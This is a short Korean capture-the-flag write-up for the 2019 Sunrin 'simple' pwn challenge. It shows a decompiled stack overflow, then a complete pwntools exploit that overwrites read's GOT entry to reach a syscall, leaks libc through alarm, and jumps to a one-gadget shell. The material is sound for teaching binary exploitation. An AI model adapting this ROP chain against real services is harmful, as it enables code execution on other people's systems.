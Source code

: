 ```yaml
---
title: "2019 선린 고등해커 본선 simple"
date: 2020-1-5
tags: [Sunrin]
categories: [Sunrin]
---
```


간단하게 read로 입력받는 바이너리다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-30h]

  alarm(60u);
  read(0, &buf, 1024uLL);
  return 0;
}
```

`read`랑 `alarm` 아니면 `__libc_csu_init` 밖에 쓸만한 함수가 없었다. 가젯도 rdi, rsi밖에 쓸만한게 없다.

가젯이 없어서 csu를 이용하려고 했는데 다른 방법도 존재했다. syscall을 이용하는 방법이다.

prax gadget이 존재하지 않았는데 syscall을 부르기 위해 read@got를 0x5e로 overwrite할 때 read로 1바이트만 입력하므로 rax에는 1이 들어가 있다. 이를 이용해서 sys_write를 호출할 수 있다. 

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./problem')
p = process('./problem')
libc = e.libc
prdi = 0x0000000000400603 # pop rdi ; ret
prsi_r15 = 0x0000000000400601 # pop rsi ; pop r15 ; ret

payload = 'A'*0x30
payload += 'realsung'
payload += p64(prdi)
payload += p64(0)
payload += p64(prsi_r15)
payload += p64(e.got['read'])
payload += p64(0)
payload += p64(e.plt['read'])

payload += p64(prdi)
payload += p64(1)
payload += p64(prsi_r15)
payload += p64(e.got['alarm'])
payload += p64(0)
payload += p64(e.plt['read'])
payload += p64(e.symbols['main'])

p.sendline(payload)
p.send('\x5e')

libc_base = u64(p.recv(6).ljust(8,'\x00')) - libc.symbols['alarm']
log.info('libc_base : ' + hex(libc_base))

payload2 = 'A'*0x30
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)

p.sendline(payload2)

p.interactive()
```


